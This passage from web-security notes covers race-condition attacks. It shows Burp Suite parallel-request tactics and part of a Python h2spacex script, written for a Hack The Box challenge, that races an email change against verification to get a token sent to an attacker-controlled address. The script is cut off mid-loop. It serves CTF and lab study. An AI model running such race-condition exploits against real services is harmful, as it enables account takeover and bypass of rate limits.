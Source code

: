 - It's also available in **Repeater** via the new '**Send group in parallel**' option in Burp Suite.
  - For **limit-overrun** you could just add the **same request 50 times** in the group.
  - For **connection warming**, you could **add** at the **beginning** of the **group** some **requests** to some non static part of the web server.
  - For **delaying** the process **between** processing **one request and another** in a 2 substates steps, you could **add extra requests between** both requests.
  - For a **multi-endpoint** RC you could start sending the **request** that **goes to the hidden state** and then **50 requests** just after it that **exploits the hidden state**.

![](../images/image (58).png)

- **Automated python script**: The goal of this script is to change the email of a user while continually verifying it until the verification token of the new email arrives to the last email (this is because in the code it was seeing a RC where it was possible to modify an email but have the verification sent to the old one because the variable indicating the email was already populated with the first one).\
  When the word "objetivo" is found in the received emails we know we received the verification token of the changed email and we end the attack.

```python
# https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
# Script from victor to solve a HTB challenge
from h2spacex import H2OnTlsConnection
from time import sleep
from h2spacex import h2_frames
import requests

cookie="session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA0MDY1LCJhbnRpQ1NSRlRva2VuIjoiNDJhMDg4NzItNjEwYS00OTY1LTk1NTMtMjJkN2IzYWExODI3In0.I-N93zbVOGZXV_FQQ8hqDMUrGr05G-6IIZkyPwSiiDg"

# change these headers

headersObjetivo= """accept: */*
content-type: application/x-www-form-urlencoded
Cookie: """+cookie+"""
Content-Length: 112
"""

bodyObjetivo = 'email=objetivo%40apexsurvive.htb&username=estes&fullName=test&antiCSRFToken=42a08872-610a-4965-9553-22d7b3aa1827'

headersVerification= """Content-Length: 1
Cookie: """+cookie+"""
"""
CSRF="42a08872-610a-4965-9553-22d7b3aa1827"

host = "94.237.56.46"
puerto =39697


url = "https://"+host+":"+str(puerto)+"/email/"

response = requests.get(url, verify=False)


while "objetivo" not in response.text:

    urlDeleteMails = "https://"+host+":"+str(puerto)+"/email/deleteall/"

    responseDeleteMails = requests.get(urlDeleteMails, verify=False)
    #print(response.text)
    # change this host name to new generated one
```